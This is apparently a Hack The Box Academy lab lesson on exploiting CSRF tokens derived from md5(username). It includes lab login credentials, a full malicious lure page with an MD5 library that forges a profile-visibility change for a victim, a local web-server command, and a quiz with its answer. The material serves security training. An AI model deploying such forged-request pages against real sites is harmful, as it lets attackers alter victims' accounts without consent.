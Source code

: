 # Exploiting Weak CSRF Tokens

Often, web applications do not employ very secure or robust token generation algorithms. An example is an application that generates CSRF tokens as follows (pseudocode): `md5(username)`.

How can we tell if that is the case? We can register an account, look into the requests to identify a CSRF token, and then check if the MD5 hash of the username is equal to the CSRF token's value.

Let us see this in action!

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: goldenpeacock467
* Password: topcat

Open Web Developer Tools (Shift+Ctrl+I in the case of Firefox) and focus on the _Network_ tab.

Back to the user's profile, press _Change Visibility_ and then _Make Public_.

You should see a request similar to the one below. Note the value of the CSRF token.

![image](https://academy.hackthebox.com/storage/modules/153/49.png)

Execute the below command to calculate the MD5 hash of the string "goldenpeacock467" (the username).

Exploiting Weak CSRF Tokens

```shell-session
AIceBear@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

You will notice that the resulting hash is the same as the CSRF value! This means that the CSRF token is generated by MD5-hashing the username.

When assessing how robust a CSRF token generation mechanism is, make sure you spend a small amount of time trying to come up with the CSRF token generation mechanism. It can be as easy as `md5(username)`, `sha1(username)`, `md5(current date + username)` etc. Please note that you should not spend much time on this, but it is worth a shot.

Now that we know how the CSRF token for this action is generated let us see how we can attack other users through CSRF.

Find below the malicious page. Save it as `press_start_2_win.html`

Code: html

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```

For your malicious page to have MD5-hashing functionality, save the below as `md5.min.js` and place it in the directory where the malicious page resides.

Code: javascript

```javascript
!function(n){"use strict";function d(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function f(n,t,r,e,o,u){return d((u=d(d(t,n),d(e,u)))<<o|u>>>32-o,r)}function l(n,t,r,e,o,u,c){return f(t&r|~t&e,n,t,o,u,c)}function g(n,t,r,e,o,u,c){return f(t&e|r&~e,n,t,o,u,c)}function v(n,t,r,e,o,u,c){return f(t^r^e,n,t,o,u,c)}function m(n,t,r,e,o,u,c){return f(r^(t|~e),n,t,o,u,c)}function c(n,t){var r,e,o,u;n[t>>5]|=128<<t%32,n[14+(t+64>>>9<<4)]=t;for(var c=1732584193,f=-271733879,i=-1732584194,a=271733878,h=0;h<n.length;h+=16)c=l(r=c,e=f,o=i,u=a,n[h],7,-680876936),a=l(a,c,f,i,n[h+1],12,-389564586),i=l(i,a,c,f,n[h+2],17,606105819),f=l(f,i,a,c,n[h+3],22,-1044525330),c=l(c,f,i,a,n[h+4],7,-176418897),a=l(a,c,f,i,n[h+5],12,1200080426),i=l(i,a,c,f,n[h+6],17,-1473231341),f=l(f,i,a,c,n[h+7],22,-45705983),c=l(c,f,i,a,n[h+8],7,1770035416),a=l(a,c,f,i,n[h+9],12,-1958414417),i=l(i,a,c,f,n[h+10],17,-42063),f=l(f,i,a,c,n[h+11],22,-1990404162),c=l(c,f,i,a,n[h+12],7,1804603682),a=l(a,c,f,i,n[h+13],12,-40341101),i=l(i,a,c,f,n[h+14],17,-1502002290),c=g(c,f=l(f,i,a,c,n[h+15],22,1236535329),i,a,n[h+1],5,-165796510),a=g(a,c,f,i,n[h+6],9,-1069501632),i=g(i,a,c,f,n[h+11],14,643717713),f=g(f,i,a,c,n[h],20,-373897302),c=g(c,f,i,a,n[h+5],5,-701558691),a=g(a,c,f,i,n[h+10],9,38016083),i=g(i,a,c,f,n[h+15],14,-660478335),f=g(f,i,a,c,n[h+4],20,-405537848),c=g(c,f,i,a,n[h+9],5,568446438),a=g(a,c,f,i,n[h+14],9,-1019803690),i=g(i,a,c,f,n[h+3],14,-187363961),f=g(f,i,a,c,n[h+8],20,1163531501),c=g(c,f,i,a,n[h+13],5,-1444681467),a=g(a,c,f,i,n[h+2],9,-51403784),i=g(i,a,c,f,n[h+7],14,1735328473),c=v(c,f=g(f,i,a,c,n[h+12],20,-1926607734),i,a,n[h+5],4,-378558),a=v(a,c,f,i,n[h+8],11,-2022574463),i=v(i,a,c,f,n[h+11],16,1839030562),f=v(f,i,a,c,n[h+14],23,-35309556),c=v(c,f,i,a,n[h+1],4,-1530992060),a=v(a,c,f,i,n[h+4],11,1272893353),i=v(i,a,c,f,n[h+7],16,-155497632),f=v(f,i,a,c,n[h+10],23,-1094730640),c=v(c,f,i,a,n[h+13],4,681279174),a=v(a,c,f,i,n[h],11,-358537222),i=v(i,a,c,f,n[h+3],16,-722521979),f=v(f,i,a,c,n[h+6],23,76029189),c=v(c,f,i,a,n[h+9],4,-640364487),a=v(a,c,f,i,n[h+12],11,-421815835),i=v(i,a,c,f,n[h+15],16,530742520),c=m(c,f=v(f,i,a,c,n[h+2],23,-995338651),i,a,n[h],6,-198630844),a=m(a,c,f,i,n[h+7],10,1126891415),i=m(i,a,c,f,n[h+14],15,-1416354905),f=m(f,i,a,c,n[h+5],21,-57434055),c=m(c,f,i,a,n[h+12],6,1700485571),a=m(a,c,f,i,n[h+3],10,-1894986606),i=m(i,a,c,f,n[h+10],15,-1051523),f=m(f,i,a,c,n[h+1],21,-2054922799),c=m(c,f,i,a,n[h+8],6,1873313359),a=m(a,c,f,i,n[h+15],10,-30611744),i=m(i,a,c,f,n[h+6],15,-1560198380),f=m(f,i,a,c,n[h+13],21,1309151649),c=m(c,f,i,a,n[h+4],6,-145523070),a=m(a,c,f,i,n[h+11],10,-1120210379),i=m(i,a,c,f,n[h+2],15,718787259),f=m(f,i,a,c,n[h+9],21,-343485551),c=d(c,r),f=d(f,e),i=d(i,o),a=d(a,u);return[c,f,i,a]}function i(n){for(var t="",r=32*n.length,e=0;e<r;e+=8)t+=String.fromCharCode(n[e>>5]>>>e%32&255);return t}function a(n){var t=[];for(t[(n.length>>2)-1]=void 0,e=0;e<t.length;e+=1)t[e]=0;for(var r=8*n.length,e=0;e<r;e+=8)t[e>>5]|=(255&n.charCodeAt(e/8))<<e%32;return t}function e(n){for(var t,r="0123456789abcdef",e="",o=0;o<n.length;o+=1)t=n.charCodeAt(o),e+=r.charAt(t>>>4&15)+r.charAt(15&t);return e}function r(n){return unescape(encodeURIComponent(n))}function o(n){return i(c(a(n=r(n)),8*n.length))}function u(n,t){return function(n,t){var r,e=a(n),o=[],u=[];for(o[15]=u[15]=void 0,16<e.length&&(e=c(e,8*n.length)),r=0;r<16;r+=1)o[r]=909522486^e[r],u[r]=1549556828^e[r];return t=c(o.concat(a(t)),512+8*t.length),i(c(u.concat(t),640))}(r(n),r(t))}function t(n,t,r){return t?r?u(t,n):e(u(t,n)):r?o(n):e(o(n))}"function"==typeof define&&define.amd?define(function(){return t}):"object"==typeof module&&module.exports?module.exports=t:n.md5=t}(this);
//# sourceMappingURL=md5.min.js.map
```

We can serve the page and JavaScript code above from our attacking machine as follows.

Exploiting Weak CSRF Tokens

```shell-session
AIceBear@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Open a `New Private Window`, navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: crazygorilla983
* Password: pisces

This account will play the role of the victim. As you can see, Ela Stienen's profile is not public. Let us try to make it public through a CSRF attack.

While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/press_start_2_win.html`.

![image](https://academy.hackthebox.com/storage/modules/153/60.png)

Now press "Start!". You will notice that when Ela Stienen presses "Start," her profile will become public!

![image](https://academy.hackthebox.com/storage/modules/153/61.png)

The following section will focus on some possible CSRF protection bypasses that you should try during web application penetration tests or bug bounty hunting.

**Questions**

Our malicious page included a user-triggered event handler (onclick). To evade what kind of security measure did we do that? Answer options (without quotation marks): "Same-Origin Policy", "Popup Blockers", "XSS Filters"

```
Popup Blockers
```
